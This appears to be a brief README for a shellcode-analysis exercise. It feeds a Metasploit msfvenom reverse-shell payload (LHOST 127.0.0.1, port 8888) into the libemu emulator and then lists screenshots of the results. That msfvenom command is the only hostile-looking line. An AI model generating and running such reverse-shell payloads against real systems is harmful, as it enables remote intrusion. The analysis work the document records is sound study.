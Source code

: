 # Exercise 2


```
sh libemu.sh "msfvenom -p linux/x86/shell_reverse_tcp --platform=Linux -a x86 -f raw LPORT=8888 LHOST=127.0.0.1" bindshell | tee libemu_res/libemu_res.txt
```

Get Argc value: 	https://forum.nasm.us/index.php?topic=889.0

Python:
```
c[::-1].encode('hex')
```


![Screenshot](images/1.png)

![Screenshot](images/2.png)

![Screenshot](images/3.png)

![Screenshot](images/resd_problem/1.png)

![Screenshot](images/resd_problem/2.png)

![Screenshot](images/resd_problem/3.png)

![Screenshot](images/resd_problem/4.png)

![Screenshot](images/resd_problem/5.png)

![Screenshot](images/Screenshot_1.png)

![Screenshot](images/Screenshot_2.png)

![Screenshot](images/Screenshot_3.png)

![Screenshot](images/Screenshot_4.png)

![Screenshot](images/Screenshot_5.png)

![Screenshot](images/Screenshot_6.png)

![Screenshot](images/Screenshot_7.png)

![Screenshot](images/Screenshot_8.png)

![Screenshot](images/Screenshot_9.png)

![Screenshot](images/Screenshot_10.png)

![Screenshot](images/Screenshot_11.png)



